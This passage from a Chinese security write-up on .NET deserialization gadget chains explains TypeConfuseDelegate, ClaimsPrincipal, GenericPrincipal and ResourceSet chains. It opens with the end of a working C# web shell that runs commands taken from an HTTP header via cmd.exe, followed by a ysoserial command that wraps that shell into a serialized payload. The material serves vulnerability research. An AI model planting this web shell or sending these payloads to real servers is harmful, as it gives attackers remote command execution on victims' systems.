        context.Server.ClearError();
        context.Response.Clear();
        try
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            process.StartInfo.FileName = "cmd.exe";
            string cmd = context.Request.Headers["cmd"];
            process.StartInfo.Arguments = "/c " + cmd;
            process.StartInfo.RedirectStandardOutput = true;
            process.StartInfo.RedirectStandardError = true;
            process.StartInfo.UseShellExecute = false;
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
            context.Response.Write(output);
        } catch (System.Exception) {}
        context.Response.Flush();
        context.Response.End();
    }
}
```

```plain
ysoserial.exe -g ActivitySurrogateSelectorFromFile -f SoapFormatter -c "dlls\E.cs;System.Web.dll;System.dll"
```

## TypeConfuseDelegate相关的链子

### 反序列化链

#### TypeConfuseDelegate+ObjectDataProvider（利用的是委托特性）

对于这个链子的解释，最终也是调用了ObjectDataProvider，但是可以去替代TextFormattingRunProperties去衔接其他链子。

**调用的类**：SortedSet + ObjectDataProvider

**思路**：SortedSet中OnDeserialization会在反序列化时触发，调用Add函数，在Add的时候，经过多次重载调用了比较器的Compare()方法。即我们反射修改的Process.Start(string,string)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105550-54d935f8-792b-1.png)

条件：`Comparer<string>.Create(c)`该函数在dotnet4.5中才出现，低版本的dotnet无法利用成功

yso生成的代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105604-5ce37344-792b-1.png)

#### ClaimsPrincipal+TypeConfuseDelegate

**调用的类**：ClaimsPrincipal+SortedSet

**Sink关键**：这个反序列化的出发点就不是构造函数了，直接是`OnDeserializedMethod`这个回调事件，从而找到`binaryFormatter.Deserialize`

**思想**：在反序列化的时候，会触发这个`ClaimsPrincipal`这个OnDeserializedMethod回调事件，然后对`m_serializedClaimsIdentities`进行反序列化

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105621-67128ddc-792b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105633-6e3aa0e0-792b-1.png)

#### GenericPrincipal+ClaimsPrincipal+SortedSet

**思想：**这个链子跟上面那个一样的，只是变成更加通用了

#### ResourceSet+Sorted

**思想**：还是TypeConfuseDelegate的链子，直接构造，然后反序列化时，触发Sorted的OnDeserialization事件

# 参考文章

[https://github.com/Y4er/dotnet-deserialization/blob/main/BinaryFormatter.md](https://github.com/Y4er/dotnet-deserialization/blob/main/BinaryFormatter.md)

[https://github.com/Ivan1ee/NET-Deserialize](https://github.com/Ivan1ee/NET-Deserialize)
